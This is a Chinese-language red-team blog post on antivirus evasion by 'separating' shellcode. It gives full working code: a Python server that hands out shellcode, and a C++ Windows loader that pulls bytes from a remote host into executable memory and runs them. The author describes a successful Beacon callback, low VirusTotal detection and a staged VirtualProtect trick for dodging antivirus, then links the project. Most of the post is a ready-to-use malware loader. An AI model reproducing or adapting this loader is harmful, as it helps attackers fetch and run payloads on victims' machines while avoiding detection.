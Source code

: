 ```yaml
---
layout:     post
title:    分离免杀测试
subtitle:   分离免杀测试
date:       2019-12-30
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 免杀
    - 红队
    - 内网渗透
---
```

# 分离免杀测试
## 简介
这个系列断了好久（年底要冲塔恰饭的），今天重新开坑。之前是直接把shellcode混淆以后放在源码中运行直接加载，之前的那个今天看了看V站已经有17个报毒了。这次尝试分离shellcode，将shellcode放在外网的服务器上，本地实现一个有下载功能的shellcode加载器。测试以下效果还是可以的。  

## 测试
首先实现服务器端的代码，这个比较简单，用python写一下几行代码就可以了，这种demo网上很多的。  
```
import socket
import threading
import time  

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('127.0.0.1', 36444)) # 公网地址
    s.listen(20)
    timeout = 10
    socket.setdefaulttimeout(timeout)
    while True:
        sock, addr = s.accept()
        t = threading.Thread(target=tcplink, args=(sock, addr))
        t.start()


def tcplink(sock, addr):
    print('Start download shellcode %s:%s...' % addr)
    shellcode = b'1111111' #your shellcode
    print(len(shellcode))
    while True:
        data = sock.recv(1024)
        time.sleep(3)
        sock.send(shellcode)
        sock.close()
    print('Finish %s:%s ' % addr)


if __name__ == '__main__':
    main()
```     
然后在服务器上nohup挂到后台就行了，根据需求修改对应的shellcode。  

然后是客户端代码：  
```
#include "stdafx.h"
#include <stdio.h>
#include <iostream>
#include <WinSock2.h>
#pragma comment(lib, "ws2_32.lib")
#pragma warning(disable:4996)
using namespace std;

int main(int argc, char *argv[])
{
	const int BUF_SIZE = 1024;

	WSADATA wsd; 
	SOCKET sHost; 
	SOCKADDR_IN servAddr;
	char buf[BUF_SIZE];
	char bufRecv[BUF_SIZE];
	DWORD dwThreadId; 
	HANDLE hThread; 
	DWORD dwOldProtect; 
	int retVal; 
	if (WSAStartup(MAKEWORD(2, 2), &wsd) != 0)
	{
		cout << "WSAStartup failed!" << endl;
		return -1;
	}
	sHost = socket(AF_INET, SOCK_STREAM, 0);
	if (INVALID_SOCKET == sHost)
	{
		cout << "socket failed!" << endl;
		WSACleanup();
		return  -1;
	}

	servAddr.sin_family = AF_INET;
	servAddr.sin_addr.s_addr = inet_addr(argv[1]);
	servAddr.sin_port = htons((short)atoi(argv[2]));
	
	retVal = connect(sHost, (LPSOCKADDR)&servAddr, sizeof(servAddr));
	if (SOCKET_ERROR == retVal)
	{
		cout << "connect failed!" << endl;
		closesocket(sHost); 
		WSACleanup(); 
		return -1;
	}
	ZeroMemory(buf, BUF_SIZE);
	strcpy(buf, "ok");
	retVal = send(sHost, buf, strlen(buf), 0);
	if (SOCKET_ERROR == retVal)
	{
		cout << "send failed!" << endl;
		closesocket(sHost); 
		WSACleanup(); 
		return -1;
	}
	cout << "Start download." << endl;
	ZeroMemory(bufRecv, BUF_SIZE);
	Sleep(2000);
	cout << "Downloading." << endl;
	//RecvLine(sHost, bufRecv);
	recv(sHost, bufRecv, BUF_SIZE, 0);
	cout << "OK." << endl;
	Sleep(4000);
	closesocket(sHost);
	WSACleanup();
	
	cout << "Start load" << endl;
	char * shellcode = (char *)VirtualAlloc(
		NULL,
		BUF_SIZE,
		MEM_COMMIT,
		PAGE_EXECUTE_READWRITE  
		);
	CopyMemory(shellcode, bufRecv, BUF_SIZE); 
	hThread = CreateThread(
		NULL, 
		NULL, 
		(LPTHREAD_START_ROUTINE)shellcode, 
		NULL, 
		NULL, 
		&dwThreadId 
		);
	
	WaitForSingleObject(hThread, INFINITE); 
	return 0;
}
```  
编译出来运行就可以了：  
```
shellcodeloader.exe ip port #服务器ip和端口
```
![191230_1](/img/191230_run.png)   
可以成功上线。  
![191230_2](/img/191230_beacon.png)  

## 查杀情况
放V站上查杀了一下还是很稳健的。  
![191230_3](/img/191230_virus.png)  

## 补充
这边加载shellcode是直接申请了可读可写可执行，实际中可以先申请可读可写，然后通过VirtualProtect改变它的属性为可执行，利用这种渐进申请的方式能更好的规避杀软的检测。  
事实我在测试中可能是应为环境的原因渐进申请会中断报错，遂放弃，用了之前的加载方式。  

## 项目地址
我把写的demo放到github上了，有兴趣可以自己看看。项目地址：[https://github.com/hmoytx/aaaAyyYy](https://github.com/hmoytx/aaaAyyYy)